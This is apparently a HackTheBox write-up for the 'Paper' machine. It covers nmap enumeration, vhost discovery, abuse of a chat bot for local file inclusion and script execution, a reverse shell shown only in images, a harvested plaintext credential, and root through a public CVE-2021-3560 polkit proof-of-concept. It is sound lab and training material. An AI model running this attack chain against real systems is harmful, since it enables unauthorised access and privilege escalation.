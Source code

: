 ```yaml
---
title: HTB | Paper
author: Zeropio
date: 2022-05-21
categories: [HackTheBox, Machines]
tags: [htb, linux, easy, machines]
permalink: /htb/labs/machines/paper
---
```


![HTB Img](/assets/img/hackthebox/card/Paper.png)

# Enumeration
## nmap
```console
❯ nmap -sVC 10.10.11.143 -oN nmap
	Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-21 18:04 CEST
	Nmap scan report for 10.10.11.143
	Host is up (0.28s latency).
	Not shown: 997 closed tcp ports (conn-refused)
	PORT    STATE SERVICE  VERSION
	22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
	| ssh-hostkey: 
	|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
	|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
	|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
	80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
	|_http-title: HTTP Server Test Page powered by CentOS
	|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
	| http-methods: 
	|_  Potentially risky methods: TRACE
	|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
	443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
	|_http-title: HTTP Server Test Page powered by CentOS
	| http-methods: 
	|_  Potentially risky methods: TRACE
	|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
	| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
	| Subject Alternative Name: DNS:localhost.localdomain
	| Not valid before: 2021-07-03T08:52:34
	|_Not valid after:  2022-07-08T10:32:34
	|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
	|_ssl-date: TLS randomness does not represent time
	| tls-alpn: 
	|_  http/1.1
```

## Web
We can see a default webpage for nginx.
With curl we can get the header and see that there is a page called **office.paper**.
```console
❯ curl -i http://10.10.11.143/
	HTTP/1.1 403 Forbidden
	Date: Sat, 21 May 2022 16:07:56 GMT
	Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
	X-Backend-Server: office.paper
	Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
	ETag: "30c0b-5c5c7fdeec240"
	Accept-Ranges: bytes
	Content-Length: 199691
	Content-Type: text/html; charset=UTF-8
```

We need to add this to `/etc/hosts`{: .filepath}:
```
10.10.11.143    office.paper
```
Now we can see the page.
With Wappalyzer we can see it is a Wordpress, so we can try a **wpscan**, we get that there is a vulnerable Wordpress version.

If we go to **http://office.paper/?static=1** we can see a subdomain, **chat**.
We add it to the `/etc/hosts`{: .filepath}. We get a login, but with the url **http://chat.office.paper/register/8qozr226AhkCHZdyY** we can register.

&nbsp;
---


# Explotation
Inside the chat we can see a bot in the chat, if we talk to him in dm we can perform an LFI to see some files (as /etc/passwd).
We can see there are a folder ../hubot, where there are some scripts. The run.js script allow us to run any script.

![Image](/assets/img/hackthebox/labs/paper/21-19-19-51.png)

We can start a reverse shell with:

![Image](/assets/img/hackthebox/labs/paper/21-22-39-24.png)

&nbsp;
---

# Privilage Escalation
We see that in our home we have the `linpeas.sh`{: .filepath} file, so we can executed it:
```console
chmod +x linpeas.sh
./linpeas.sh
```

We found some credentials:
```
ROCKETCHAT_PASSWORD=Queenofblad3s!23
LOGNAME=dwight
```
Now we can connect with ssh.

We will use the [CVE-2021-3560](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)
```console
[dwight@paper ~]# ./poc.sh -u=zeropio -p=1234
[dwight@paper ~]# su - zeropio
	Password: 
[zeropio@paper ~]# sudo bash
	[sudo] password for zeropio:
[root@paper ~]#
```
